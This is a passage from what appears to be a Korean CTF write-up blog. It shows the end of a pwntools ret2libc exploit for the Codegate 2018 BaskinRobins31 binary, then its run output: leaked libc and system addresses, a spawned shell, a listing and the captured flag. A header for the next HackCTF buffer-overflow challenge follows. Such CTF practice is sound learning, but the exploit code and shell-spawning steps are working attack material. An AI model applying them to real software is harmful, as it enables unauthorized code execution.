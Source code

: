 ```python
log.info('libc_base : {}'.format(hex(libc_base)))
log.info('system : {}'.format(hex(system)))

p.send("/bin/sh\x00")
p.sendline(p64(system))

p.interactive()

# 이것 저것 확인한다고, 좀 지져분함.
```

```
pocas@pocas-VirtualBox:~/pwn/codegate/2018/BaskinRobins31$ python exploit.py 
[+] Starting local process './BaskinRobins31': pid 16607
[*] '/home/pocas/pwn/codegate/2018/BaskinRobins31/BaskinRobins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] pppr : 0x40087a
[*] bss : 0x602090
[*] read_plt : 0x400700
[*] read_got : 0x602040
[*] write_plt : 0x4006d0
[*] system_offset : 0x4f550
[*] read_offset : 0x110140
[*] libc_base : 0x7f621a53c000
[*] system : 0x7f621a58b550
[*] Switching to interactive mode
\x00$ ls
BaskinRobins31    exploit.py  flag
$ cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
$  
```

> FLAG : flag{The Korean name of "Puss in boots" is "My mom is an alien"}

---
## PWN D+5 (2021.01.29)<br>

---
HackCTF Challenge : 내 버퍼가 흘러넘친다!!!

<strong>이번에는 BOF 취약점을 이용해서 쉬운 쉘 코드 관련 문제를 하나 풀어보겠습니다.</strong><br>
